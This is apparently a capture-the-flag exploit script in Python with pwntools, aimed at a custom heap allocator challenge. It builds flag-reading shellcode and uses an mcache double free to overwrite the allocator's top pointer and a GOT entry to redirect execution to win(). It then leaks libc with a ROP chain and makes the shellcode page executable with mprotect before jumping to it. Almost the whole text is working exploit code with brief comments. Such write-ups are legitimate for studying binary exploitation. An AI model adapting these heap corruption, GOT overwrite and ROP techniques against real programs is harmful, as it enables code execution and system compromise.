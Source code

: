 ```python
sc+= shellcraft.pushstr('/pwn') # put "/pwn" on the stack
sc+= shellcraft.openat(0, 'rsp', O_DIRECTORY) # use openat in lieu of open. rsp because of pushstr
sc+= 'mov QWORD PTR [{}], rax\n'.format(mound_data.base) # Store the resultant fd _somewhere_ accessible (mound_data.base)
sc+= shellcraft.getdents64('rax', mound_data.dents, 0x10000) # use getdents to list directory
# step 2: loop through the dents data to find the flag filename
sc+=shellcraft.mov('rax', mound_data.dents)
sc+= 'loop:\n'
sc+= 'inc rax\n'
sc+= 'cmp DWORD PTR [rax], {}\n'.format(hex(u32('.txt')))
sc+= 'jne loop\n'
# step 3: open the flag file, read to _somewhere_ (mound_arena.base), and write to stdout
sc+= 'lea rbx, [rax-0x20]\n'
sc+= 'mov rax, QWORD PTR [{}]\n'.format(mound_data.base)
sc+= shellcraft.openat('rax', 'rbx', 0)
sc+= shellcraft.read('rax', mound_arena.base, FLAG_LEN)
sc+= shellcraft.write(1, mound_arena.base, FLAG_LEN)
sc = asm(sc) # don't call asm() twice
add(1+csize2midx(request2size(len(sc))), 8, sc) # dump shellcode somewhere in mound_data for later use

# The Obvious Solution: mcache dup --> mound_arena.top overwrite --> GOT table edit to win()
def rm_id(id: int): # remove an arbitrary 56-bit id from mound_arena.ids[]
    strdup(b'a'*0x17, 5)
    strdup(b'a'*0x17, 6)
    edit(midxs.prev_size_editor, pack(r64())[:7].rjust(0x17, b'a'))
    free(midxs.fakeid_provider)
    edit(midxs.prev_size_editor, pack(id)[:7].rjust(0x17,b'a'))
    add(midxs.strdup, 7, b'a'*0x10)
for _ in range(3): r64bit() # There have been 3 rand64bit() calls so far; account for them.
while 1: # try adding until there's an ID with a null MSB
    add(midxs.mcache_dup, 0xf, b'hi')
    if not ((chunk_id := r64bit()) >> 56): break
free(0xf)
rm_id(chunk_id)
free(0xf) # mcache dup
add(midxs.mcache_dup, 0xe, fit(mound_data.mcache, mound_arena.mcache-0x10)) # overwrite ->next
add(midxs.mcache_dup, 0xd, 'hi')
add(midxs.mcache_dup, 0xc, fit(mound_data.mcache, context.binary.got['setvbuf'])) # overwrite .top
add(midxs.got_overwriter, 0xb, pack(context.binary.sym.win)) # overwrite got['scanf']

# win() will execute. Leak libc in the first cycle.
R = ROP(context.binary)
R.raw(0x48*b'a')
R.puts(context.binary.got['read'])
R.win()
r.sendlineafter(';)\n', R.chain())
context.libc.symbols['read'] = unpack(r.recvline()[:6], 'all')
# Using libc, change 0xbeef* to an rwx page, and jump to the shellcode that was allocated there earlier on.
R = ROP(context.libc)
R.raw(0x48*b'a')
R.mprotect(mound_data.base, 0x400000, 7)
R.call(mound_data.shellcode)
r.sendlineafter(';)\n', R.chain())
# get flag
print(r.recvall())
```
